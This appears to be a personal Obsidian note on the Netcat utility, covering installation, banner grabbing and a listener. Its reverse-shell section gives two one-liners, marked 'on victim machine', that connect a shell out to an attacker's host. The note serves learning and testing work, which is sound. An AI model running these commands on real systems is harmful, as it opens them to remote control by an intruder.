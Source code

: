 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Summary
[Netcat](https://linux.die.net/man/1/nc) or *nc* is a network utility for interacting with TCP/UDP ports.
> [PowerCat](https://github.com/besimorhino/powercat) is the PowerShell equivalent of Netcat.
> [[Socat]] is a similar tool to netcat but offers additional features including full TTY reverse shells

> ncat is the Nmap version of netcat, they are different and have different features.
## Installation
```
sudo apt install netcat
```

## Documentation
**Cheatsheet:** https://quickref.me/nc.html
**Website:** 
## Usage
### Banner Grabbing
```
nc -vn [target] [port]
```
This aids us in confirming the service running on a particular port.

We can also use `curl -IL [url]` for banner grabbing web server headers.

### Create a simple reverse shell
In many versions of netcat, the *-e* flag doesn't exist so this method isn't all reliable
```shell
# On victim machine
nc -e /bin/sh [Atkbox IP] [Port]
```
- *-e* : binds a shell to a port

Without *-e*:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc [IP] [Port] > /tmp/f
```


### Create a listener
```
nc -lvnp [Port]
```
- *-l* : specifies to listen
- *-v* : more vebose
- *-n* : disables DNS resolution and uses just IPs, to speed up the connection
- *-p* : specifies the source port